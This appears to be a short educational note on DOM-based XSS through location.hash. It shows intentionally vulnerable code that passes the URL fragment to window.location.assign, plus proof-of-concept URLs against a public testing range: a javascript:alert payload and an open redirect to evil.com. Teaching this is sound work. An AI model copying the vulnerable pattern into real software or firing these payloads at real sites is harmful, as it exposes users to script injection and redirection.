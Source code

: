 #### [ Description ] : These vulnerabilities source the payload from a component of the address bar, usually the fragment, and use javascript sinks to trigger DOM based XSS.


#### [ Location.hash ]
 
#### 1.Location.hash - assign - assign
#### 2.Vulnerable Code : 
 <script>
var payload = window.location.hash.substr(1);window.location.assign(payload);
 </script>
#### 3: source : window.location.hash.substd(1) 
//This source extracts the fragments part from the URL and define as variable payload(The portion after the # sign):


####  sink   : window.location.assign(payload) 
// This sink is use to redirect the browser to a new URL defined by the payload variable :

#### 4: Exploit : So we Can Exploit Open Redirect and DOM XSS by using this source and sink :
#### 5: POC ::

//https://public-firing-range.appspot.com/address/location.hash/assign#javascript:alert(1);//

//https://public-firing-range.appspot.com/address/location.hash/assign#//evil.com
